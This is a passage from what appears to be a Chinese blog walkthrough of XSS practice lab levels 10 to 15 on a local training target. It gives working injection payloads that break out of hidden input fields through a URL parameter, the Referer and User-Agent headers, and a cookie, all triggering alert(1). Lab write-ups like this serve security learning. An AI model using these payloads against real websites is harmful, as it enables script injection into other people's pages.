 尝试所有内容输入`http://localhost:51142/level10.php?keyword=test?t_link=tlink&t_history=thistory&t_sort=tsort` ，得到
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="tsort" type="hidden">
```

`t_sort`的信息并没有过滤，可以尝试从这里注入，从源码得知`<>`被过滤掉，尝试类似`" onmouseover=javascript:alert(1) "`的payload
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) "`

发现回显
`<input name="t_sort"  value="" onmouseover=javascript:alert(1) "" type="hidden">` ,被隐藏了xd，html里面加一个type去覆盖这个状态
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) type "`

**level11**  
看页面源码
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="http://localhost:51142/level10.php?keyword=test&t_sort=%22%20onmouseover=javascript:alert(1)%20type%20%22" type="hidden">
```

发现referer被传回来，是上一个靶场的链接，bp抓包给他改了传回去
`Referer: "type="text "onmousemove="alert(1)`


还有一种方法创建一个文件名为 `" onmouseover=javascript:alert(1) type ".html `的 HTML 文件，在其中重定向到 level 11 的页面。

**level12**  
看看页面源码

```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ua"  value="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Safari/605.1.15" type="hidden">
```

给了ua，很明显举要改ua，改成`"type="text "onmousemove="alert(1)`就行

**level13**  
修改cookie为`" onmouseover=javascript:alert(1) type "`

**level14**  
貌似这个关卡寄了，看别人的博客貌似是exif xss，就是图片上传，图片的属性改成xss的马

**level15**  
这一关考的是`ng-include:`这个东西，文件包含

+ ng-include 指令用于包含外部的 HTML 文件。
+ 包含的内容将作为指定元素的子节点。
+ ng-include 属性的值可以是一个表达式，返回一个文件名。
+ 默认情况下，包含的文件需要包含在同一个域名下。
